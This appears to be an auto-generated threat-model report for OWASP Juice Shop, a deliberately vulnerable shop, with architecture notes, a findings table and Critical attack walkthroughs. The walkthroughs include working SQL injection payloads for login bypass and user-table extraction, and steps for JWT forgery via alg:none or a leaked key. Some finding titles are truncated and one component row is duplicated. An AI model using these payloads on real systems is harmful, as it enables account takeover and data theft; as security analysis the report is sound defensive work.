

**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



**Key takeaway:** The system decomposes into 2 client, 6 application and 1 data unit(s); Authentication & Session Surface carries the most Critical findings (3) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** CI/CD Pipeline concentrates the most findings (21 of 82 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|----------------------|-----------|----------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="backend-api"></a><span style="white-space:nowrap">C-01</span> | Express REST API Backend | application | `server.ts`<br/>`app.ts`<br/>`routes/**`<br/>`lib/**`<br/>`data/**` | 🔴 [F-006](#f-006) — SQL injection in product search raw query (`routes/search.ts:23`)<br/>🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery (`lib/insecurity.ts:23`)<br/>🟠 [F-010](#f-010) — Security-question-based password reset enables (`routes/resetPassword.ts:35`)<br/>🟠 [F-011](#f-011) — Missing Authentication on Chat Endpoint (`server.ts:637`)<br/>🔴 [F-014](#f-014) — Zip-Slip path traversal in complaint zip extraction (`routes/fileUpload.ts:44`)<br/>🟠 [F-021](#f-021) — XXE: XML parsed with external entities enabled (`routes/fileUpload.ts:83`)<br/>🟠 [F-022](#f-022) — SSRF (`routes/profileImageUrlUpload.ts:24`)<br/>🔴 [F-032](#f-032) — Reset-password rate limit keyed on spoofable forwarding header (`server.ts:346`)<br/>🟠 [F-034](#f-034) — No rate limiting or lockout on POST `/rest/user/login` (`server.ts:595`)<br/>🔴 [F-038](#f-038) — Server-side eval of user-controlled username (`routes/userProfile.ts:61`)<br/>🔴 [F-039](#f-039) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)<br/>🔴 [F-040](#f-040) — Authenticated GET `/api/Users` exposes full user table without (`server.ts:362`)<br/>🟠 [F-046](#f-046) — Web3 state-changing endpoints registered without authentication (`server.ts:642`)<br/>🟡 [F-047](#f-047) — Redirect allowlist uses substring match, enabling open (`lib/insecurity.ts:138`)<br/>🟡 [F-055](#f-055) — No security audit log for authentication and admin actions (`routes/login.ts:34`)<br/>🟡 [F-057](#f-057) — Express errorhandler returns full stack traces unconditionally (`server.ts:678`)<br/>🟡 [F-063](#f-063) — Unbounded LLM Consumption on Chat Endpoint (`server.ts:637`)<br/>🟢 [F-068](#f-068) — Unauthenticated GET `/metrics` exposes Prometheus internals (`server.ts:725`) |
| <a id="c-02"></a><a id="frontend-spa"></a><span style="white-space:nowrap">C-02</span> | Angular SPA Frontend | client | `frontend/src/**` | 🟠 [F-001](#f-001) — SPA holds API bearer credential client-side with no (`socket-io.service.ts:22`)<br/>🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth (`oauth.component.ts:30`)<br/>🔴 [F-017](#f-017) — Stored XSS (`last-login-ip.component.ts:39`)<br/>🔴 [F-018](#f-018) — DOM XSS (`search-result.component.ts:143`)<br/>🟠 [F-030](#f-030) — OAuth access_token passed in URL fragment and query (`oauth.component.ts:28`)<br/>🟠 [F-031](#f-031) — JWT stored in non-httpOnly localStorage (`request.interceptor.ts:16`)<br/>🟠 [F-044](#f-044) — Admin authorization decided client-side from unverified JWT (`app.guard.ts:57`)<br/>🟡 [F-049](#f-049) — Socket\.IO WebSocket established without authentication (`socket-io.service.ts:22`)<br/>🔴 [F-052](#f-052) — InnerHTML sink renders markdown-derived hint HTML (`index.ts:126`)<br/>🟢 [F-066](#f-066) — Security-relevant client errors logged only to console (`app.guard.ts:41`)<br/>🟢 [F-074](#f-074) — Client CAPTCHA timestamp read unvalidated from (`data-export.component.ts:48`) |
| <a id="c-03"></a><a id="data-persistence"></a><span style="white-space:nowrap">C-03</span> | SQLite Data Layer | data | `models/**`<br/>`data/datacreator.ts` | 🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes (`models/user.ts:77`)<br/>🟠 [F-028](#f-028) — Sensitive columns stored unencrypted at rest (`models/card.ts:40`)<br/>🔴 [F-029](#f-029) — Security answers HMAC'd with a hardcoded static (`models/securityAnswer.ts:48`)<br/>🔴 [F-043](#f-043) — `User.role` is a mass-assignable column with only isIn (`models/user.ts:80`) |
| <a id="c-04"></a><a id="socket-io-service"></a><span style="white-space:nowrap">C-04</span> | Socket\.IO Real-Time Service | application | `lib/startup/registerWebsocketEvents.ts`<br/>`frontend/src/app/Services/socket-io.service.ts` | 🟠 [F-012](#f-012) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-035](#f-035) — Catastrophic-backtracking regex on client data (`registerWebsocketEvents.ts:46`)<br/>🟡 [F-064](#f-064) — No rate limiting or connection cap on (`registerWebsocketEvents.ts:21`)<br/>🟢 [F-067](#f-067) — No audit logging of WebSocket events or state (`registerWebsocketEvents.ts:24`)<br/>🔴 [F-072](#f-072) — Hardcoded permissive CORS origin on Socket\.IO (`registerWebsocketEvents.ts:21`) |
| <a id="c-05"></a><a id="ci-cd-pipeline"></a><span style="white-space:nowrap">C-05</span> | CI/CD Pipeline | application | `.github/workflows/**`<br/>`.gitlab-ci.yml`<br/>`Dockerfile` | 🟠 [F-015](#f-015) — Unpinned GitHub Action to Mutable Ref (`image_actions.yml:33`)<br/>🟠 [F-016](#f-016) — Lockfile Disabled by Config<br/>🟠 [F-023](#f-023) — No --unsafe-perm install flag — Dockerfile:5<br/>🟠 [F-024](#f-024) — GitHub Actions workflow-level permissions block (`release.yml:1`)<br/>🟠 [F-025](#f-025) — Third-party GitHub Actions pinned to commit SHA (`lock.yml:15`)<br/>🟠 [F-026](#f-026) — Base image must be digest-pinned — Dockerfile:1<br/>🟠 [F-027](#f-027) — On present and committed (`package-lock.json:1`)<br/>🟠 [F-041](#f-041) — Missing Explicit Workflow Permissions (`ci.yml:1`)<br/>🟠 [F-042](#f-042) — Install Scripts Execute on Untrusted PR (`ci.yml:161`)<br/>🟡 [F-048](#f-048) — Long-Lived Publish Token Instead of OIDC (`release.yml:65`)<br/>🟡 [F-050](#f-050) — Untrusted External Contribution to Public Repository (`ci.yml:14`)<br/>🟡 [F-051](#f-051) — No Automated Dependency Update or PR Dependency-Review Gate (`ci.yml:14`)<br/>🟡 [F-058](#f-058) — USER directive — Dockerfile:1<br/>🔴 [F-059](#f-059) — Container image signing (`lock.yml:1`)<br/>🟡 [F-060](#f-060) — Privileged Secrets Reachable in pull_request_target Flow (`pr-compliance.yml:438`)<br/>🟡 [F-061](#f-061) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:1<br/>🟡 [F-062](#f-062) — GITHUB_TOKEN scope minimization (`lock.yml:1`)<br/>🟢 [F-065](#f-065) — No Build Provenance Attestation on Published Image (`release.yml:74`)<br/>🟢 [F-069](#f-069) — HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-070](#f-070) — SBOM generation in build pipeline (`lock.yml:1`)<br/>🟢 [F-071](#f-071) — Renovate config present (`renovate.json:1`) |
| <a id="c-06"></a><a id="llm-chat-interface"></a><span style="white-space:nowrap">C-06</span> | LLM Chat Interface | application | `routes/chat.ts` | 🟠 [F-019](#f-019) — Prompt Injection (`routes/chat.ts:189`)<br/>🔴 [F-045](#f-045) — Excessive LLM Agency in Coupon Tool (`routes/chat.ts:174`)<br/>🟡 [F-056](#f-056) — Missing Audit Logging of Coupon and Tool Actions (`routes/chat.ts:179`) |
| <a id="c-07"></a><a id="web3-integration"></a><span style="white-space:nowrap">C-07</span> | Web3/NFT Integration | application | `routes/nftMint.ts`<br/>`routes/web3Wallet.ts` | 🟠 [F-013](#f-013) — Wallet ownership accepted from request body without proof (`routes/nftMint.ts:41`)<br/>🟠 [F-036](#f-036) — Web3 endpoints have no rate limiting and grow (`routes/web3Wallet.ts:16`)<br/>🟡 [F-053](#f-053) — Alchemy RPC WebSocket event data trusted without (`routes/web3Wallet.ts:26`)<br/>🟢 [F-073](#f-073) — Raw error message returned to client on web3 handler (`routes/nftMint.ts:33`) |
| <a id="c-08"></a><a id="auth"></a><span style="white-space:nowrap">C-08</span> | Authentication & Session Surface | application | `lib/insecurity.ts`<br/>`lib/startup/registerWebsocketEvents.ts`<br/>`routes/2fa.ts`<br/>`routes/authenticatedUsers.ts`<br/>`routes/login.ts` | 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts:23`)<br/>🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:57`)<br/>🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass (`routes/login.ts:34`)<br/>🔴 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset (`lib/insecurity.ts:44`)<br/>🟠 [F-033](#f-033) — No rate limiting on login endpoint permits credential (`routes/login.ts:32`)<br/>🟠 [F-037](#f-037) — No server-side token revocation; logout leaves JWT valid (`lib/insecurity.ts:72`)<br/>🟡 [F-054](#f-054) — No audit logging of authentication and account-recovery (`routes/login.ts:32`) |
| <a id="c-09"></a><a id="auth"></a><span style="white-space:nowrap">C-09</span> | Authentication and Session Surface | application | `lib/insecurity.ts`<br/>`routes/login.ts`<br/>`routes/2fa.ts`<br/>`routes/resetPassword.ts`<br/>`routes/authenticatedUsers.ts` | 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts:23`)<br/>🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:57`)<br/>🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass (`routes/login.ts:34`)<br/>🔴 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset (`lib/insecurity.ts:44`)<br/>🟠 [F-033](#f-033) — No rate limiting on login endpoint permits credential (`routes/login.ts:32`)<br/>🟠 [F-037](#f-037) — No server-side token revocation; logout leaves JWT valid (`lib/insecurity.ts:72`)<br/>🟡 [F-054](#f-054) — No audit logging of authentication and account-recovery (`routes/login.ts:32`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 Hardcoded RSA JWT signing key in source

**Source:** 🔴 [F-002](#f-002) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. The RSA private key used to sign every authentication JWT is a string literal in `lib/insecurity.ts:23` and is committed to the public repository. `authorize()` (line 56) signs tokens with this key.
2. Any attacker who reads the source can mint a JWT with arbitrary `data.role` (e.g.
3. 'admin') and a valid deluxeToken HMAC (`deluxeToken()` at line 152 also derives from the same private key), then present it to any `isAuthorized()`-protected endpoint.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-001](#m-001) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Move cryptographic keys to a managed secret store)
- Defence in depth: ❶ [M-016](#m-016) (Move cryptographic keys to a managed secret store)

### 3.2 Insecure JWT Verification

**Source:** 🔴 [F-003](#f-003) — `lib/insecurity.ts:57`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. `verify()` at `lib/insecurity.ts:57` calls `jws.verify(token, publicKey)` with no algorithm allowlist, and `isAuthorized()` (line 54) wires express-jwt 0.1.3 with only { secret: publicKey } and no algorithms option.
2. Both express-jwt 0.1.3 and jsonwebtoken 0.4.0 are pre-CVE-2015-9235 versions that accept the 'none' algorithm and allow algorithm confusion (signing an `RS256`-verified token with the public key as an HMAC secret).
3. An attacker crafts a token with header `alg:none` (or `HS256` using the published public key) carrying `data.role`='admin' and passes `isAccounting()`/`isDeluxe()`/`isAuthorized()` checks without possessing the private key.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-017](#m-017) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:57` is exploitable at `lib/insecurity.ts:57` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-017](#m-017) (Enforce JWT signature and algorithm verification)

### 3.3 OAuth deriving account password from email enables auth

**Source:** 🔴 [F-004](#f-004) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-287](https://cwe.mitre.org/data/definitions/287.html)). STRIDE: Spoofing. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. After the OAuth callback, the SPA derives a deterministic account password 'btoa(`profile.email.split('')`.`reverse().join`(''))' (`oauth.component.ts:30`) and both registers (save) and logs in (`oauth.component.ts:46`) with it.
2. The password is a pure function of the public email address, so anyone who knows a victim's email can reconstruct it (reverse the local+domain string, base64-encode) and authenticate to that account through the normal `/rest/user/login` endpoint - a complete parallel-authentication bypass that does not require the OAuth flow at all.
3. Email addresses are not secrets, so this reduces account security to zero for every OAuth-provisioned user.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-018](#m-018) (Harden the authentication flow) lands, 🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth — `oauth.component.ts:30` is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-287](https://cwe.mitre.org/data/definitions/287.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-018](#m-018) (Harden the authentication flow)

### 3.4 SQL injection in login query enables auth bypass

**Source:** 🔴 [F-005](#f-005) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. The login handler at `routes/login.ts:34` builds a raw SQL string by interpolating `req.body.email` directly into a SELECT against the Users table, then runs it via `sequelize.query` with plain:true.
2. Submitting email = "' OR 1=1--" returns the first user row (the admin) and the handler issues that user a valid JWT at line 49, bypassing the password check entirely.
3. An attacker can also pivot to UNION-based extraction of any column.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-019](#m-019) (Use parameterized database queries) lands, 🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-019](#m-019) (Use parameterized database queries)

### 3.5 SQL injection in product search raw query

**Source:** 🔴 [F-006](#f-006) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. `searchProducts()` interpolates the `q` query parameter into a raw SQL string after only a 200-char length cap (no escaping): `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') …)`.
2. An unauthenticated attacker calls GET `/rest/products/search`?q=`')) UNION SELECT id,email,password,…FROM Users--` to exfiltrate the full user table including md5 password hashes, or `' AND 1=2)) UNION SELECT sql,1,… FROM sqlite_master--` to dump the schema.
3. Identify the vulnerable input parameter - `backend-api` interpolates it directly into a SQL string at `routes/search.ts:23`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-020](#m-020) (Use parameterized database queries) lands, 🔴 [F-006](#f-006) — SQL injection in product search raw query — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-020](#m-020) (Use parameterized database queries)

### 3.6 Insecure Direct Object Reference

**Source:** 🔴 [F-007](#f-007) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-021](#m-021) (Enforce object-level (ownership) authorization) lands, 🔴 [F-007](#f-007) — Insecure Direct Object Reference — `routes/address.ts:11` is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-021](#m-021) (Enforce object-level (ownership) authorization)

### 3.7 Hardcoded RSA signing key enables offline JWT forgery

**Source:** 🔴 [F-008](#f-008) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Information Disclosure. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. The RSA private key used to sign all session JWTs is embedded as a string constant in `lib/insecurity.ts`.
2. Anyone with read access to the public repository (the project is open source) holds the exact key, so they can mint valid `RS256` tokens for any user id and role='admin' entirely offline, with no server interaction, bypassing every authorization check that trusts the signature.
3. Send the crafted payload to the endpoint backed by `lib/insecurity.ts:23`.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-001](#m-001) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Move cryptographic keys to a managed secret store)
- Defence in depth: ❶ [M-022](#m-022) (Move secrets to a managed secret store)

### 3.8 Passwords stored as unsalted MD5 hashes

**Source:** 🔴 [F-009](#f-009) — `models/user.ts:77`

Severity **Critical** ([CWE-916](https://cwe.mitre.org/data/definitions/916.html)). STRIDE: Information Disclosure. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. The User model's password setter calls `security.hash(clearTextPassword)`, which is `crypto.createHash('md5').update`(data).digest('hex') (`lib/insecurity.ts:43`) - a single-round, unsalted `MD5` digest.
2. Every password column in the Users table is therefore a bare `MD5` hash.
3. An attacker who obtains the SQLite file (data/juiceshop.sqlite, an unencrypted file accessible to any process or backup with OS file read) can crack the entire user base offline at billions of guesses per second on commodity GPUs, and identical passwords across users produce identical hashes (no per-user salt), enabling instant rainbow-table lookups and cross-account password reuse detection.

**Sequence Diagram**

